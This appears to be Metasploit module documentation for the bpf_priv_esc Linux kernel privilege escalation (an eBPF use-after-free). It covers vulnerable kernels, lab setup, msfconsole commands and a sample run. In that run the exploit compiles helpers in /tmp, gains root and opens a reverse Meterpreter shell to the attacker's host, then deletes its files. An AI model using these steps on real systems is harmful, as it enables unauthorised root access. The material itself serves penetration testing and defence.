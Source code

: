 ## Notes

  Linux kernel 4.4 < 4.5.5 extended Berkeley Packet Filter (eBPF)
  does not properly reference count file descriptors, resulting
  in a use-after-free, which can be abused to escalate privileges.

  The target system must be compiled with `CONFIG_BPF_SYSCALL`
  and must not have `kernel.unprivileged_bpf_disabled` set to 1.


## Vulnerable Application

  This module has been tested successfully on:

  * Ubuntu 16.04 (x64) kernel 4.4.0-21-generic (default kernel)
  * Ubuntu 16.04 (x64) kernel 4.4.0-38-generic
  * Ubuntu 16.04 (x64) kernel 4.4.0-42-generic
  * Ubuntu 16.04 (x64) kernel 4.4.0-98-generic
  * Ubuntu 16.04 (x64) kernel 4.4.0-140-generic

  This module was not tested against, but may work against:

  * Fedora 24 < [kernel-4.5.4-300.fc24](https://bugzilla.redhat.com/show_bug.cgi?id=1334311)
  * Fedora 23 < [kernel-4.5.5-201.fc23](https://bugzilla.redhat.com/show_bug.cgi?id=1334311)
  * Fedora 22 < [kernel-4.4.10-200.fc22](https://bugzilla.redhat.com/show_bug.cgi?id=1334311)
  * Debian >= 4.4~rc4-1~exp1, < Fixed in version [4.5.3-1](https://bugs.debian.org/cgi-bin/bugreport.cgi?bug=82
  * Ubuntu 14.04.1 <= [4.4.0-22.39](https://bugs.launchpad.net/ubuntu/+source/linux/+bug/1578705/comments/3)


## Creating A Testing Environment

There are a few requirements for this module to work:

  1. `CONFIG_BPF_SYSCALL=y` must be set in the kernel (default on Ubuntu 16.04)
  2. `kernel.unprivileged_bpf_disabled` can't be set to `1` (default on Ubuntu 16.04)
  3. fuse needs to be installed (non-default on Ubuntu 16.04)
  
  Using Ubuntu 16.04, simply `sudo apt-get install fuse` and you're all set!

  The `libfuse-dev` package must be installed to test live-compiling on the target:

  `apt-get install libfuse-dev=2.9.4-1ubuntu3.1`


## Verification Steps

  1. Start msfconsole
  2. Exploit a box via whatever method
  3. Do: `use exploit/linux/local/bpf_priv_esc
  4. Do: `set session #`
  5. Do: `set verbose true`
  6. Do: `exploit`

## Options

  **MAXWAIT**

  The first stage of this priv esc can take ~35 seconds to execute.  This is the timer on how long we should wait till we give up on the first stage finishing.  Defaults to `120` (seconds)

  **WritableDir**

  A folder we can write files to.  Defaults to `/tmp`

  **COMPILE**
  
  If we should live compile on the system, or drop pre-created binaries.  Auto will determine if gcc/libs are installed to compile live on the system.  Defaults to `Auto`


## Scenarios

### Ubuntu 16.04 (with Linux 4.4.0-21-generic)

In this scenario, gcc and libfuse-dev are both installed so we can live compile on the system.

  ```
  msf5 > use exploit/linux/local/bpf_priv_esc 
  msf5 exploit(linux/local/bpf_priv_esc) > set session 1
  session => 1
  msf5 exploit(linux/local/bpf_priv_esc) > set verbose true
  verbose => true
  msf5 exploit(linux/local/bpf_priv_esc) > set lhost 172.16.191.188
  lhost => 172.16.191.188
  msf5 exploit(linux/local/bpf_priv_esc) > run
  
  [*] Started reverse TCP handler on 172.16.191.188:4444 
  [+] Kernel version 4.4.0-21-generic appears to be vulnerable
  [+] fuse package is installed
  [+] /tmp/fuse_mount doesn't exist
  [+] Kernel config has CONFIG_BPF_SYSCALL enabled
  [+] Unprivileged BPF loading is permitted
  [+] libfuse-dev is installed
  [+] gcc is installed
  [+] pkg-config is installed
  [*] Live compiling exploit on system...
  [*] Writing '/tmp/hello.c' (2682 bytes) ...
  [*] Writing '/tmp/doubleput.c' (5168 bytes) ...
  [*] Writing '/tmp/suidhelper.c' (333 bytes) ...
  [*] Uploading payload...
  [*] Writing '/tmp/.FVfiRBKRDX7r' (285 bytes) ...
  [*] Launching exploit. This may take up to 120 seconds.
  [+] Success! set-uid root /tmp/suidhelper
  [*] Transmitting intermediate stager...(126 bytes)
  [*] Sending stage (861348 bytes) to 172.16.191.141
  [*] Meterpreter session 2 opened (172.16.191.188:4444 -> 172.16.191.141:34804) at 2018-12-15 00:20:04 -0500
  [+] Deleted /tmp/hello.c
  [+] Deleted /tmp/hello
  [+] Deleted /tmp/doubleput.c
  [+] Deleted /tmp/doubleput
  [+] Deleted /tmp/suidhelper.c
  [+] Deleted /tmp/.FVfiRBKRDX7r
  [+] Deleted /tmp/fuse_mount
  
  meterpreter > getuid
  Server username: uid=0, gid=0, euid=0, egid=0
  meterpreter > sysinfo
  Computer     : 172.16.191.141
  OS           : Ubuntu 16.04 (Linux 4.4.0-21-generic)
  Architecture : x64
  BuildTuple   : x86_64-linux-musl
  Meterpreter  : x64/linux
  meterpreter > 
  ```

